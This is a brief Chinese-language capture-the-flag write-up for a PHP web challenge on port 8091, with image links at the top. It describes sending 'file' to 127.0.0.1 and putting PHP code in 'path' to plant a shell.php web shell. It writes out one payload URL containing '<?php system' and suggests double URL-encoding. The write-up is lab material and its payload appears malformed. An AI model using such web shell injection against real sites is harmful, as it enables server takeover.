





8091

首先访问页面

发现file和path可以传参，上传后在upload目录下，继续往下分析发现会对path进行检测，并且最后对url要为127.0.0.1

由此可以构建poc首先要将第一个file等于127.0.0.1

payload:
    192.168;1.104:8091/?file=http://127.0.0.1/?file=shell.php&path=<?php system[x];>
上传了个寂寞

接着构建payload:

传上去之所以没有效果是因为浏览器先行url编码后发送，php服务端会进行解码，因为空格等字符解码后就会消失，所以需要编码两次保证空格等特殊字符等存在，保证php服务端解码后可以使用

